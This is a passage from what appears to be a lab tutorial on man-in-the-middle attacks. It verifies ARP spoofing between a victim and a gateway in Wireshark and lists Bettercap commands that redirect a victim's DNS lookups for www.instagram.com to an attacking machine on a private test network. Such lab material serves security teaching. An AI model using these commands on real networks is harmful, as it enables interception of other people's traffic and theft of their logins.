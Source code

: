As can be seen, the MAC address of the Gateway is now the same MAC address as that of our attacking machine. In addition, it can be verified that we are in a duplex ARP spoofing using Wireshark. You can see that ARP responses are sent to both the Gateway (“_ARP 192.168.238.129 (Victim) is at \[ATTACKING MAC]”) and the victim machine (“_ARP 192.168.238.2 (GW) is at \[ATTACKING MAC]”).

![](Picture8.png)

Poisonous ARP requests from the attacking machine to the victim and to the GW.

### 2.2. DNS Spoofing

We will also perform DNS spoofing, so that, in this case, all DNS requests to [www.instagram.com](http://www.instagram.com) go through our attacking machine. To do this, we run the following commands in the Bettercap tool:

```sh
set dns.spoof.domains [www.instagram.com](http://www.instagram.com) -> All DNS requests to [www.instagram.com](http://www.instagram.com) will be intercepted.
set dns.spoof.address 192.168.238.128 -> Requests to previously configured websites (Instagram, in this case) will be redirected to our attacking machine.
dns.spoof on -> DNS spoofing is enabled.
```

![](Picture9.png)

A Wireshark capture shows DNS spoofing in action:

![](Picture10.png)
Poisoned DNS requests.
